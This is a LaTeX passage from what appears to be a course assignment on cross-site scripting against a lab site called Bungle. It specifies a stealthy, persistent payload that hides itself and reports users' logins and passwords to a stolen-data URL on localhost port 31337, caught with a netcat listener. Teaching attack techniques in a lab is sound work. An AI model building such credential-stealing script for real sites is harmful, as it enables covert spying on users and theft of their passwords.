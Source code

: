 \documentclass[letterpaper,12pt]{article}
\begin{document}
{\subsection*{Payload}
The payload (the code that the attack tries to execute) will be an extended form of spying and password theft.  After the victim visits the URL you create, all functions of the \bungle\ site should be under control of your code and should report what the user is doing to a server you control, until the user leaves the site.  Your payload needs to accomplish these goals:
\bigskip

\noindent\textbf{Stealth:}
\begin{itemize}
\item Display all pages correctly, with no significant evidence of attack.\\
(Minor text formatting glitches are acceptable.)
\item Display normal URLs in the browser's location bar, with no evidence of attack.\\
(Hint: Learn about the HTML5 History API.)
\item Hide evidence of attack in the \bungle\ search history view, as long as your code is running.
\end{itemize}

\noindent\textbf{Persistence:}
\begin{itemize}
\item Continue the attack if the user navigates to another page on the site by following a link or submitting a form, including by logging in or logging out.  (Your code does \textbf{not} have to continue working if the user's actions trigger an error that isn't the fault of your code.)
\item Continue the attack if the user navigates to another \bungle\ page by using the browser's back or forward buttons.
\end{itemize}

\noindent\textbf{Spying:}
\begin{itemize}
\item Report all login and logout events by loading the URLs:\\
\texttt{http://127.0.0.1:31337/stolen?event=login\&user=<username>\&pass=<password>}\\
\texttt{http://127.0.0.1:31337/stolen?event=logout\&user=<username>}

You can test receiving this data on your local machine by using Netcat: \texttt{\$ nc -l 31337}


\end{itemize}}
\end{document}
